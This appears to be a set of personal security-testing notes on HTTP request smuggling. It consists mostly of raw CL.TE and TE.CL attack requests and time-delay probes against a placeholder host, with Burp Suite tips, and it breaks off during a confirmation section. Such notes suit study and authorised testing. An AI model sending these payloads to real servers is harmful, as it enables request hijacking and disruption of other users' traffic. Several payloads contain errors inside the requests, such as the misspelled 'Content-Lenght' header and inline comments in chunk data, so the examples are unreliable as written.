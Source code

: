 # REQUEST SMUGGLING

[EXAMPLE REPORT](REQUEST%20SMUGGLING%20f9843d63454f4b50bbe6705db530b773/EXAMPLE%20REPORT%20cf91a037a48143ddb3e1fd345a51900f.md)

### **CL . TE**

**The front-end check length and the back-end check the encoding**

```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Lenght: [X]
Transfer-Encoding: chunked 

0 #End of the chuked request

GPOST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13

pwny=rock
```

In the front-end this is a single request acourding the lenght but in the back-end this is two requests acording the encoding 0 terminating the request in the middle

```
If the request work the response request of the server will be:
"Unrecognized method GPOST"
```

## **TE . CL**

**The front-end check the encoding and the back-end check the length** 

**Is essentialy inverted CL . TE**

```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Lenght: 3 #One space + two characters (3F)
Transfer-Encoding: chunked

5c #The number of bytes of the second request in hex number (92=>5c)
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15 #One space +tree characters (x=1) + the end of request (0)

x=1
0 #End of the chuked request
```

You need to count the quantity of bytes in the second request and convert into hex number

In the burp you can select the second request and click on "Convert to chunked" and cautomaticaly will put the hexadecimal length and the 0 end request.

And add the header methods clicking in the first request and in "change the request method"

# **Identify With Time Delay**

## **CL . TE**

```bash
CL . TE
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

- The **front-end** will pass by one request on legth: **1 space + 2 chars + 1 number = 4 bytes**
- The **back-end** will not terminate the chunk and will whait for the next it cause a time delay

## **TE . CL**

```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

- The **front-end** will recieve part of the chuked request
- The **back-end** will expected **6 bytes** on the resquest (more than the sended) and will **whait the rest of the bytes** and it cause a time delay

**ALERT: The timing-based test fot TE. CL vulnerabilities disturb** the application for other users **use this test only if the CL. TE not work**

## **Confirming HTTP Smuggling**

An attack request want to interfere in the next request

But you can confirm this wihout circumvent the legal laws checking the responde of your request

**A Normal Request:**

```bash
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
